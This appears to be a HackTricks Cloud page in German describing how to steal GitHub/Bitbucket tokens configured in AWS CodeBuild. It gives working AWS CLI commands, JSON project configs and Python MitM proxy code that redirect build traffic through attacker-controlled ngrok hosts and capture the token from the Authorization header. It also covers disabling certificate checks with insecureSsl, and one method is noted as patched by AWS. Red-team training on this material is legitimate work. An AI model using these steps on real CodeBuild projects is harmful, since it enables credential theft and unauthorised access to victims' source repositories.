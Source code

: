 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Wiederherstellung von Github/Bitbucket konfigurierten Tokens

Überprüfe zuerst, ob es Quellanmeldeinformationen gibt, die du leaken könntest:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Wenn Sie feststellen, dass die Authentifizierung zum Beispiel für Github im Konto eingestellt ist, können Sie **exfiltrieren** diesen **Zugang** (**GH token oder OAuth token**), indem Sie Codebuild dazu bringen, ein **bestimmtes Docker-Image** zu verwenden, um den Build des Projekts auszuführen.

Zu diesem Zweck könnten Sie **ein neues Codebuild-Projekt erstellen** oder die **Umgebung** eines bestehenden ändern, um das **Docker-Image** festzulegen.

Das Docker-Image, das Sie verwenden könnten, ist [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Dies ist ein sehr einfaches Docker-Image, das die **Umgebungsvariablen `https_proxy`**, **`http_proxy`** und **`SSL_CERT_FILE`** festlegt. Dies ermöglicht es Ihnen, den Großteil des Traffics des im **`https_proxy`** und **`http_proxy`** angegebenen Hosts abzufangen und das in **`SSL_CERT_FILE`** angegebene SSL-Zertifikat zu vertrauen.

1. **Erstellen & Hochladen Ihres eigenen Docker MitM-Images**
* Befolgen Sie die Anweisungen des Repos, um Ihre Proxy-IP-Adresse festzulegen und Ihr SSL-Zertifikat einzurichten und **das Docker-Image zu erstellen**.
* **SETZEN SIE NICHT `http_proxy`**, um keine Anfragen an den Metadaten-Endpunkt abzufangen.
* Sie könnten **`ngrok`** wie `ngrok tcp 4444` verwenden, um den Proxy auf Ihren Host einzustellen.
* Sobald Sie das Docker-Image erstellt haben, **laden Sie es in ein öffentliches Repo** (Dockerhub, ECR...) hoch.
2. **Setzen Sie die Umgebung**
* Erstellen Sie ein **neues Codebuild-Projekt** oder **ändern** Sie die Umgebung eines bestehenden.
* Stellen Sie das Projekt so ein, dass es das **zuvor generierte Docker-Image** verwendet.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Setzen Sie den MitM-Proxy auf Ihrem Host**

* Wie im **Github-Repo** angegeben, könnten Sie etwas wie verwenden:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Die **mitmproxy-Version, die verwendet wurde, war 9.0.1**, es wurde berichtet, dass dies mit Version 10 möglicherweise nicht funktioniert.
{% endhint %}

4. **Führen Sie den Build aus und erfassen Sie die Anmeldeinformationen**

*   Sie können das Token im **Authorization**-Header sehen:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Dies könnte auch über die aws cli mit etwas wie

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild**-Projekte haben eine Einstellung namens **`insecureSsl`**, die im Web verborgen ist und nur über die API geändert werden kann.\
Wenn dies aktiviert ist, kann Codebuild sich mit dem Repository **verbinden, ohne das von der Plattform angebotene Zertifikat zu überprüfen**.

* Zuerst müssen Sie die aktuelle Konfiguration mit etwas wie:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Dann kannst du mit den gesammelten Informationen die Projekteinstellungen **`insecureSsl`** auf **`True`** aktualisieren. Das folgende ist ein Beispiel für meine Aktualisierung eines Projekts, beachte das **`insecureSsl=True`** am Ende (das ist das einzige, was du aus der gesammelten Konfiguration ändern musst).
* Außerdem füge auch die Umgebungsvariablen **http\_proxy** und **https\_proxy** hinzu, die auf dein tcp ngrok zeigen, wie: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Führen Sie dann das grundlegende Beispiel von [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) an dem Port aus, der durch die Proxy-Variablen (http\_proxy und https\_proxy) angegeben ist.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Schließlich klicken Sie auf **Build the project**, die **Anmeldeinformationen** werden **im Klartext** (base64) an den mitm-Port gesendet:

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~Über das HTTP-Protokoll~~

{% hint style="success" %}
**Diese Schwachstelle wurde von AWS irgendwann in der Woche des 20. Februar 2023 (ich glaube am Freitag) behoben. Ein Angreifer kann sie also nicht mehr ausnutzen :)**
{% endhint %}

Ein Angreifer mit **erhöhten Berechtigungen in über CodeBuild könnte das Github/Bitbucket-Token** leaken, das konfiguriert ist, oder wenn die Berechtigungen über OAuth konfiguriert wurden, das **temporäre OAuth-Token, das zum Zugriff auf den Code verwendet wird**.

* Ein Angreifer könnte die Umgebungsvariablen **http\_proxy** und **https\_proxy** zum CodeBuild-Projekt hinzufügen, die auf seine Maschine zeigen (zum Beispiel `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Dann ändern Sie die URL des Github-Repos, um HTTP anstelle von HTTPS zu verwenden, zum Beispiel: `http://github.com/carlospolop-forks/TestActions`
* Dann führen Sie das grundlegende Beispiel von [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) an dem Port aus, auf den die Proxy-Variablen (http\_proxy und https\_proxy) zeigen.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Schließlich klicken Sie auf **Projekt erstellen**, die **Anmeldeinformationen** werden **im Klartext** (base64) an den mitm-Port gesendet:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Jetzt kann ein Angreifer das Token von seinem Computer aus verwenden, alle Berechtigungen auflisten, die es hat, und (miss)brauchen einfacher als die direkte Nutzung des CodeBuild-Dienstes.
{% endhint %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
